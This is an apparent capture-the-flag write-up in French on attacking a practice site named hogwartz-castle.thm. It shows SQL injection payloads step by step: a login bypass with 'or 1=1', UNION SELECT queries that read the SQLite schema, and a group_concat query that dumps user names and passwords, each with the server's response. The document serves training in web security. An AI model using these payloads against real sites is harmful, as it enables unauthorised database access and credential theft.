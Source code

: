 En regardant le code source, nous pouvons remarquer qu’un commentaire indique le nom de domaine du site.

![Untitled 1](https://user-images.githubusercontent.com/68467919/206929042-bf000831-dc84-43a2-9730-d517ca38e1c4.png)

Nous écrivons donc le nom de domaine dans le fichier /etc/hosts pour pouvoir y accéder.

```bash
echo "$ip hogwartz-castle.thm" | sudo tee -a /etc/hosts
```

## hogwartz-castle.thm | SQL Injection

![Untitled 2](https://user-images.githubusercontent.com/68467919/206929075-59fcf0a7-6267-4499-8fd7-617ef9231198.png)

En essayant une injection SQL dans le champ de connexion, le résultat suivant nous est retourné :

```sql
user='or 1=1 -- -&password=blah
```

```json
{"error":"The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging"}
```

C’est un bon commencement, nous pourrions donc essayer de dump la base de donnée pour avoir un peu plus d’informations et pourquoi pas retrouver les mots de passes des utilisateurs inscrits sur le site.

```sql
UNION SELECT NULL,NULL,NULL,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -
```

Nous trouvons donc une table “users”, essayons désormais de fouiller dedans et trouver le nom des différentes colonnes.

```json
{"error":"The password for None is incorrect! users"}
```

Ce payload nous permet de trouver le schema de la base de donnée, qui nous retourne différentes colonnes comme name, password, admin et notes.

```sql
'UNION SELECT NULL,NULL,NULL,sql FROM sqlite_master-- -
```

```json
{"error":"The password for None is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
```

Etant donné que je ne peux pas concat plus de trois colonnes ou même rajouter un séparateur, je suis obligé de faire avec, même si ca n’est pas très lisible. 

```sql
'UNION SELECT group_concat(name,password),NULL,NULL,NULL FROM users -- -
```
